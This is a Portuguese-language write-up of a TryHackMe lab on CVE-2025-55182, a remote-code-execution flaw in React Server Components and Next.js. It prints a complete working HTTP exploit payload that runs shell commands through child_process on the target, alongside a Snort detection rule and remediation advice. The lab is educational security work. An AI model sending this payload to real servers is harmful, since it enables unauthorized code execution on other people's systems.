

# 🚩 CVE-2025-55182 - React Server Components RCE (React2Shell)

Write-up técnico da vulnerabilidade CVE-2025-55182, explorada durante o laboratório prático do TryHackMe. Esta falha afeta o React Server Components (RSC) e frameworks como Next.js, permitindo Execução Remota de Código (RCE) sem autenticação.


## 📝 Descrição da Vulnerabilidade

A vulnerabilidade é uma **deserialização insegura** no protocolo React Flight. O erro ocorre na função `requireModule` do pacote `react-server-dom-webpack`, que utiliza notação de colchetes para acessar propriedades de objetos. 

Isso permite que um atacante percorra a **prototype chain** e acesse o construtor global `Function`, injetando comandos arbitrários no servidor Node.js.

### Versões Vulneráveis

- **React:** 19.0.0, 19.1.0, 19.1.1, 19.2.0
- **Next.js:** Versões recentes até a correção em 19.0.1+

## 🚀 Exploração Passo a Passo

### 1. Preparação do Ambiente

O ataque é realizado interceptando e modificando uma requisição HTTP via Burp Suite.

**Headers Críticos:**
- `Next-Action: x` (Gatilha o processamento de Server Actions do React)
- `Content-Type: multipart/form-data`

### 2. Configuração do Burp Suite

Utilizamos o **Burp Suite Repeater** para enviar o payload malicioso:

1. Abra o Burp Suite
2. Configure uma nova aba HTTP no Repeater
3. Configure o target (IP e porta do alvo)

### 3. O Payload Malicioso

O payload simula um objeto "chunk" falso que manipula as propriedades internas do React:

```http
POST / HTTP/1.1
Host: [TARGET_IP]:3000
Next-Action: x
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryx8jO2oVc6SWP3Sad

------WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Disposition: form-data; name="0"

{
  "then": "$1:__proto__:then",
  "status": "resolved_model",
  "reason": -1,
  "value": "{\"then\":\"$B1337\"}",
  "_response": {
    "_prefix": "var res=process.mainModule.require('child_process').execSync('id').toString().trim();;throw Object.assign(new Error('NEXT_REDIRECT'), {digest:`${res}`});",
    "_chunks": "$Q2",
    "_formData": {
      "get": "$1:constructor:constructor"
    }
  }
}
------WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Disposition: form-data; name="1"
"$@0"
------WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Disposition: form-data; name="2"
[]
------WebKitFormBoundaryx8jO2oVc6SWP3Sad--
```

### Por que funciona?

- **`$1:constructor:constructor`**: Resolve para o construtor global `Function`
- **`_prefix`**: Contém o código JavaScript que será executado pelo construtor
- **`execSync('id')`**: Comando do Sistema Operacional para identificar o usuário

### 4. Execução e Resultado

Ao enviar a requisição, o servidor executa o comando e retorna a saída no campo `digest` da resposta HTTP.



*Saída do comando `cat /etc/flag.txt` exibida na resposta do servidor.*

## 🛡️ Detecção e Mitigação

### Detecção via Snort (IDS)

Regra para identificar tentativas de ataque:

```snort
alert http any any -> $LAN_NETWORK any (
    msg:"Potential Next.js React2Shell / CVE-2025-55182 attempt";
    content:"Next-Action"; http_header; nocase;
    content:"multipart/form-data"; http_header; nocase;
    pcre:"/\"then\"\s*:\s*\"\$1:__proto__:then\"/s";
    sid:6655001; rev:1;
)
```

### Remediação

1. **Atualizar:** Certifique-se de estar usando React 19.0.1+ ou versões corrigidas do Next.js
2. **WAF:** Implementar regras de Web Application Firewall que filtrem acessos a propriedades como `__proto__` e `constructor` em payloads JSON/Multipart
3. **Validação de Entrada:** Sanitizar e validar todos os dados recebidos em Server Actions

## 🔗 Referências e Ferramentas

- **TryHackMe Room:** [React2Shell (CVE-2025-55182)](https://tryhackme.com/room/react2shellcve202555182)
- **PoC Original:** [maple3142 - CVE-2025-55182.http](https://gist.github.com/maple3142/48bc9393f45e068cf8c90ab865c0f5f3#file-cve-2025-55182-http)
- **Scanner de Vulnerabilidade:** [Next.js-RSC-RCE-Scanner](https://github.com/Malayke/Next.js-RSC-RCE-Scanner-CVE-2025-66478)
- **Burp Suite:** [PortSwigger](https://portswigger.net/burp)
  

## ⚠️ Aviso Legal

Este conteúdo possui **fins exclusivamente educacionais** e foi realizado em ambiente controlado. A exploração de vulnerabilidades em sistemas sem autorização é ilegal e pode resultar em consequências criminais.

## 👤 Autor

**[iceShaher]**
- TryHackMe: [@iceShaher](https://tryhackme.com/p/iceShaher)

